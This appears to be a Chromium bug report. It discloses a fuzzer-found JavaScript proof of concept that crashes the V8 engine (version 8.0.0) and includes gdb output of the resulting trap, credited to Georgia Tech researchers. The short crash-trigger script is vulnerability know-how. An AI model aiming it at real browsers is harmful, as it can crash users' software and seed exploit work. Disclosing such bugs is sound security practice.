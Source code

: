 UserAgent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36

Steps to reproduce the problem:
The following PoC found by fuzzing crashes both release and debug build of v8 8.0.0 (commit a5376b7e8f647b69184c54462e48e2a4423aff44 on Nov 11th)

PoC:

function opt() {
  var date = new Date();
  for (let i = 0; i < 100; i++) {
    switch (i / date.getMilliseconds()) {
      case 0:
      case date.getMilliseconds() % i:
        break;
    }
  }
}

function main() {
  for (let i = 0; i < 100; i--) {
    opt();
  }
}

main();

What is the expected behavior?

What went wrong?
Run in gdb with the PoC, we get:

Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
0x00007e8b96d42c4b in ?? ()
(gdb) x/4i $pc - 0x7
   0x7e8b96d42c44:      jne    0x7e8b96d42e78
   0x7e8b96d42c4a:      int3   
=> 0x7e8b96d42c4b:      mov    $0x1,%eax
   0x7e8b96d42c50:      jmpq   0x7e8b96d42c67

Did this work before? N/A 

Chrome version: 78.0.3904.108  Channel: canary
OS Version: 
Flash Version: 

Found by Soyeon Park and Wen Xu from SSLab at Georgia Tech